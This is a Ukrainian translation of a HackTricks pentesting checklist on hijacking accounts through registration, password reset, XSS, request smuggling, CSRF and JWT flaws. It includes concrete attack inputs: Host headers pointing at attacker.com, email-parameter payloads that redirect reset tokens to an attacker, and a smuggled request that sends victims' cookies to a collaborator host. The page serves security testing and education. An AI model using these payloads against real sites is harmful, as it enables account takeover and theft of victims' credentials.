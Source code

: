 # Вразливості реєстрації та захоплення

{{#include ../banners/hacktricks-training.md}}

## Захоплення реєстрації

### Дублювання реєстрації

- Спробуйте згенерувати, використовуючи існуюче ім'я користувача
- Перевірте, варіюючи електронну пошту:
- великі літери
- \+1@
- додайте крапку в електронній пошті
- спеціальні символи в імені електронної пошти (%00, %09, %20)
- Додайте чорні символи після електронної пошти: `test@test.com a`
- victim@gmail.com@attacker.com
- victim@attacker.com@gmail.com

### Перерахування імен користувачів

Перевірте, чи можете ви з'ясувати, коли ім'я користувача вже було зареєстровано в додатку.

### Політика паролів

Створюючи користувача, перевірте політику паролів (перевірте, чи можете ви використовувати слабкі паролі).\
У цьому випадку ви можете спробувати брутфорсити облікові дані.

### SQL-ін'єкція

[**Перевірте цю сторінку** ](sql-injection/index.html#insert-statement), щоб дізнатися, як спробувати захоплення облікових записів або витягти інформацію через **SQL-ін'єкції** у формах реєстрації.

### Захоплення Oauth

{{#ref}}
oauth-to-account-takeover.md
{{#endref}}

### Вразливості SAML

{{#ref}}
saml-attacks/
{{#endref}}

### Зміна електронної пошти

Після реєстрації спробуйте змінити електронну пошту та перевірте, чи ця зміна правильно перевіряється або чи можна змінити її на довільні електронні адреси.

### Більше перевірок

- Перевірте, чи можете ви використовувати **одноразові електронні адреси**
- **Довгий** **пароль** (>200) призводить до **DoS**
- **Перевірте обмеження швидкості на створення облікових записів**
- Використовуйте username@**burp_collab**.net і аналізуйте **callback**

## **Захоплення скидання пароля**

### Витік токена скидання пароля через реферер <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. Запросіть скидання пароля на вашу електронну адресу
2. Натисніть на посилання для скидання пароля
3. Не змінюйте пароль
4. Перейдіть на будь-які сторонні вебсайти (наприклад: Facebook, Twitter)
5. Перехопіть запит у проксі Burp Suite
6. Перевірте, чи заголовок referer витікає токен скидання пароля.

### Отруєння скидання пароля <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. Перехопіть запит на скидання пароля в Burp Suite
2. Додайте або відредагуйте наступні заголовки в Burp Suite: `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. Перешліть запит з модифікованим заголовком\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. Шукайте URL скидання пароля на основі _заголовка host_, наприклад: `https://attacker.com/reset-password.php?token=TOKEN`

### Скидання пароля через параметр електронної пошти <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```bash
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### IDOR на API Параметрах <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. Атакуючий повинен увійти в свій обліковий запис і перейти до функції **Змінити пароль**.
2. Запустіть Burp Suite і перехопіть запит.
3. Відправте його на вкладку повторювача та відредагуйте параметри: User ID/email\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### Слабкий Токен Скидання Пароля <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

Токен скидання пароля повинен генеруватися випадковим чином і бути унікальним щоразу.\
Спробуйте визначити, чи токен має термін дії або завжди однаковий, в деяких випадках алгоритм генерації є слабким і може бути вгаданий. Наступні змінні можуть використовуватися алгоритмом.

- Timestamp
- UserID
- Email користувача
- Ім'я та прізвище
- Дата народження
- Криптографія
- Тільки числа
- Невелика послідовність токенів (символи між \[A-Z,a-z,0-9])
- Повторне використання токена
- Дата закінчення терміну дії токена

### Витік Токена Скидання Пароля <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. Викличте запит на скидання пароля, використовуючи API/UI для конкретної електронної пошти, наприклад: test@mail.com
2. Перевірте відповідь сервера та перевірте наявність `resetToken`
3. Потім використайте токен в URL, наприклад `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### Скидання Пароля Через Колізію Імені Користувача <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. Зареєструйтеся в системі з іменем користувача, ідентичним імені користувача жертви, але з пробілами перед і/або після імені користувача. наприклад: `"admin "`
2. Запросіть скидання пароля з вашим зловмисним іменем користувача.
3. Використайте токен, надісланий на вашу електронну пошту, і скиньте пароль жертви.
4. Увійдіть до облікового запису жертви з новим паролем.

Платформа CTFd була вразливою до цієї атаки.\
Дивіться: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Захоплення Облікового Запису Через Міжсайтовий Скриптинг <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. Знайдіть XSS всередині програми або піддомену, якщо куки обмежені до батьківського домену: `*.domain.com`
2. Витягніть поточний **cookie сесії**
3. Аутентифікуйтеся як користувач, використовуючи cookie

### Захоплення Облікового Запису Через HTTP Запит Смуглінг <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. Використовуйте **smuggler** для виявлення типу HTTP Запит Смуглінг (CL, TE, CL.TE)\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. Сформуйте запит, який перезапише `POST / HTTP/1.1` з наступними даними:\
`GET http://something.burpcollaborator.net HTTP/1.1 X:` з метою перенаправлення жертв на burpcollab і викрадення їхніх куків\
3\. Остаточний запит може виглядати наступним чином
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
Hackerone звіти про експлуатацію цього багу\
\* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)\
\* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### Захоплення облікового запису через CSRF <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. Створіть payload для CSRF, наприклад: “HTML форма з автоматичною відправкою для зміни пароля”
2. Відправте payload

### Захоплення облікового запису через JWT <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON Web Token може використовуватися для аутентифікації користувача.

- Змініть JWT на інший User ID / Email
- Перевірте на слабкий підпис JWT

{{#ref}}
hacking-jwt-json-web-tokens.md
{{#endref}}

## Посилання

- [https://salmonsec.com/cheatsheet/account_takeover](https://salmonsec.com/cheatsheet/account_takeover)

{{#include ../banners/hacktricks-training.md}}

